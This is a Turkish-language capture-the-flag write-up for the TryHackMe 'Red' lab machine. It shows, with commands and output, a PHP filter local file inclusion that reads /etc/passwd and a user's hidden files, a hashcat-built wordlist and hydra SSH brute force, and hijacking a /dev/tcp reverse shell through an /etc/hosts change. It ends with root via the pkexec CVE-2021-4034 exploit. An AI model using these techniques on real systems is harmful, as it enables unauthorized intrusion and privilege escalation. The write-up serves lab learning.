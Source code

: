 ```yaml
---
title: 'TryHackMe | Red WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [lfi]
render_with_liquid: false
media_subpath: /images/tryhackme_red/
image:
  path: logo.webp
---
```


## Özet
Web uygulamasında bulunan "Local File Inclusion" zafiyetinden yararlanarak "blue" kullanıcısının dizinideki gizli dosyayı keşfedeceğiz. Bu dosyadaki yönergeleri takip ederek bir parola listesi oluşturacak ve bu parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapacağız. Sonucunda elde ettiğimiz parolayı kullanarak SSH servisine bağlanacak ve yetki yükseltmek için bir takım kontroller yapacağız. Arka planda çalışan bağlantıyı fark ettikten sonra domain'in IP adresini değiştirecek ve bağlantıyı kendi makinemize yönlendireceğiz. Sonrada zafiyetli pkexec uygulamasını fark edecek ve internette bulduğumuz bir sömürü aracını kullanarak yetki yükselteceğiz.

### Makine hakkında ek bilgiler

- Makineye bağlanan kullanıcıların bağlantıları sonlandırılıp, parolaları değiştiriliyor.
- Odağımızı bozacak mesajlar ile karşılaşabiliriz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.35.115
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Bulgular

- Web uygulaması hazır web teması içeriyor.
- Tema sayfaları index.php dosyasına gönderilen "page" parametresi ile sayfaya dahil ediliyor.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Kullanılan hazır tema düzenlenmemiş gibi duruyor. "page" parametresinin aldığı değeri /etc/passwd ve türevleri olacak şekilde değiştirdiğimde her seferinde home.html sayfasına yönlendiriyor. Sistemde bulunan dosyaları görüntüleyebilmek için parametreye "php://filter/convert.base64-encode/resource=/etc/passwd" şeklinde bir değer girdiğimde ise base64 ile kodlanmış olarak dosya içeriğini okuyabiliyorum.

## Sömürü aşaması

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d                                                                          
root:x:0:0:root:/root:/bin/bash
...
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

Sistemde root haricinde "red" ve "blue" olmak üzere iki kullanıcı var. "blue" kullanıcısının dizinindeki .bash_history isimli dosyayı kontrol ettiğimizde, aynı dizindeki .reminder dosyasında bulunan bir metni kullanarak hashcat ile belli kurallar dahilinde bir parola listesi oluşturduğunu görüyoruz.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history | base64 -d
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

".reminder" isimli dosyanın içeriği aşağıdaki şekildedir.

```console
$ curl -s http://10.10.35.115/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder | base64 -d
sup3r_p@s$w0rd!
```

Red kullanıcısının blue kullanıcısı için oluşturduğu parola listesini aynı komutu kullanarak oluşturalım.

```console
$ nano .reminder
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

Daha sonra elde ettiğimiz parola listesini kullanarak SSH servisine deneme yanılma saldırısı yapalım.

```console
$ hydra -l blue -P passlist.txt ssh://10.10.35.115
[DATA] attacking ssh://10.10.35.115:22/
[22][ssh] host: 10.10.35.115   login: blue   password: sup3r_p@s$w0sup3r_p@s$w0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 04:28:00
```

Elimizdeki kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra bulunduğumuz dizinde ilk bayrağı görüyoruz.

```console
blue@red:~$ ls
flag1
blue@red:~$ cat flag1 
THM{***?}
```

Başta belirtiğim gibi ara ara bağlantı sonlandırılıyor ve parola değiştiriliyor. Aynı parola listesini kullanarak tekrar tekrar deneme yanılma saldırısı yapmanız gerekebilir.

## Yetki yükseltme

### Red

"ps aux" komutunu kullandığımızda arka planda red kullanıcısının redrules.thm adresinin 9001 portuna bağlandığını görüyoruz.

```console
blue@red:/var/backups$ ps aux
...
red         2557  0.0  0.0   6972  2496 ?        S    08:31   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
red         2582  0.0  0.0   6972  2692 ?        S    08:32   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
root        2593  0.0  0.0      0     0 ?        I    08:32   0:00 [kworker/u30:1-events_unbound]
red         2628  0.0  0.0   6972  2696 ?        S    08:33   0:00 bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

/etc/hosts dosyasına domain ile beraber makinemizin IP adresini girdikten bir süre sonra red kullanıcısının adına bir bağlantı alıyoruz. Dosyayı temizlediği için bu işlemi bağlantı alana kadar bir kaç kez tekrar etmeniz gerekebilir.

![](2.webp){: width="1200" height="600" }

Bağlantı geldikten sonra kendi dizininden ikinci bayrağı alıyoruz.

```console
red@red:~$ cat flag2 
THM{***}
```

### Root

/home/red/.git/ dizini içerisinde "pkexec" adında bir dosya bulunuyor. Bu dosyaya SUID izni verilmiş ve zafiyetli bir sürümü kullanılıyor.

```console
red@red:~/.git$ ls -la
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

Adını ve sürümünü internette arattıktan sonra [bu](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py) sayfa ile karşılaştım. Verilen python kodlarını düzenleyip kayıt ettikten sonra çalıştırdım ve başarıyla root haklarına sahip oldum.

```console
red@red:~/.git$ ls
CVE-2021-4034.py  pkexec
red@red:~/.git$ python3 CVE-2021-4034.py 
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=1001(red) groups=1001(red)
# cd /root
# ls
defense  flag3  snap
# cat flag3
THM{***}
```
